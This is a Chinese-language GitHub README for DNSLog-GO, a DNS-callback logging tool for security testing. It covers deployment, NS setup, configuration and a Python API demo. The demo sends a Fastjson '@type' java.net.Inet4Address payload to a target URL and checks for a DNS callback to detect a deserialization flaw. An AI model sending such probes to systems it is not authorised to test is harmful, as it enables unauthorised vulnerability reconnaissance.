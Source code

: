 简介
---

DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具。

支持:

- docker一行命令部署
- WEB界面 或者 API 模式
- 多账号，可供多人使用。或者工具扫描和人工测试，数据互不干扰
- 支持通过置DNA A记录，用于临时测试或者ns服务自解析

演示截图:

![avatar](https://github.com/lanyi1998/DNSlog-GO/raw/master/images/demo.png)

安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

# 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

或者docker启动
```shell
wget https://raw.githubusercontent.com/lanyi1998/DNSlog-GO/master/config.yaml
#修改你的config.yaml文件
docker run -d -p 53:53 -p 53:53/udp -p 8000:8000 -v `pwd`/config.yaml:/DNSlog-GO/config.yaml --name dnslog --privileged --restart=always lanyi1998/dnslog-go:latest
```

# 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有一个域名如(a.com),还需要有一个公网 IP 地址(如：1.1.1.1)
    
修改 a.com 的 NS 记录为 

NS1.vpsip.NIP.IO
NS2.vpsip.NIP.IO

如 
ns1.1.1.1.1.nip.io
ns1.1.1.1.1.nip.io

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

# 3.修改配置文件 config.ini

```
Http:
  host: 0.0.0.0
  port: 8000
  consoleDisable: false

User:
  #"token":"用户对应子域名"
  'admin': 'dnslog'

Dns:
  domain: demo.com
  ARecord:
    'www': '1.1.1.1'
```

# 4.启动对应系统的客户端

**注意服务端重启以后，如果修改了用户对应子域名，必须清空一下浏览器中的localStorage,否则会获取不到数据**

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        try:
            res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
            self.domain = res.Msg
        except:
            exit("DnsLog 服务器连接失败")
        if res["Msg"] == "false":
            exit("DnsLog token 验证失败")

    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["Msg"] == "false":
            return False
        else:
            return True


url = "http://192.168.41.2:8090/"

dns = DnsLog("1111:8888", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

## Stargazers over time

[![Stargazers over time](https://starchart.cc/lanyi1998/DNSlog-GO.svg)](https://starchart.cc/lanyi1998/DNSlog-GO)

## 404星链计划

[![Stargazers over time](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)](https://starchart.cc/lanyi1998/DNSlog-GO)

DNSlog-Go 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)
